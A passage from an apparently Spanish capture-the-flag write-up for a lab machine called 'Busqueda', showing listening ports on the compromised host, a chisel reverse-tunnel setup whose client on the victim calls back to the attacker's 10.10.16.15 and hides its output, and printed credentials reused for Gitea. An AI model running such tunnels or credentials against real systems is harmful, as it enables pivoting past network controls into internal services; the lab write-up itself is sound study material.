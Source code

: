 ```null
LISTEN            0                 4096                             127.0.0.1:3306                              0.0.0.0:*                                                                                       
LISTEN            0                 4096                         127.0.0.53%lo:53                                0.0.0.0:*                                                                                       
LISTEN            0                 128                                0.0.0.0:22                                0.0.0.0:*                                                                                       
LISTEN            0                 4096                             127.0.0.1:3000                              0.0.0.0:*                                                                                       
LISTEN            0                 511                                      *:80                                      *:*                                                                                       
LISTEN            0                 128                                   [::]:22                                   [::]:*                                                                                       
svc@busqueda:~$ 
```

Utilizo el ```chisel``` para aplicar ```Remote Port Forwarding```. En mi equipo lo ejecuto como servidor

```null
chisel server -p 1234 --reverse
2023/06/02 10:39:16 server: Reverse tunnelling enabled
2023/06/02 10:39:16 server: Fingerprint sfdHwMX88RAObnCNtni3uZMOTr28FTeC37OvOSmiL5o=
2023/06/02 10:39:16 server: Listening on http://0.0.0.0:1234
```

En la máquina víctima como cliente

```null
svc@busqueda:/tmp$ ./chisel client 10.10.16.15:1234 R:socks &>/dev/null & disown
```

Las credenciales ```administrator:yuiu1hoiu4i5ho1uh``` se reutilizan para el Gitea

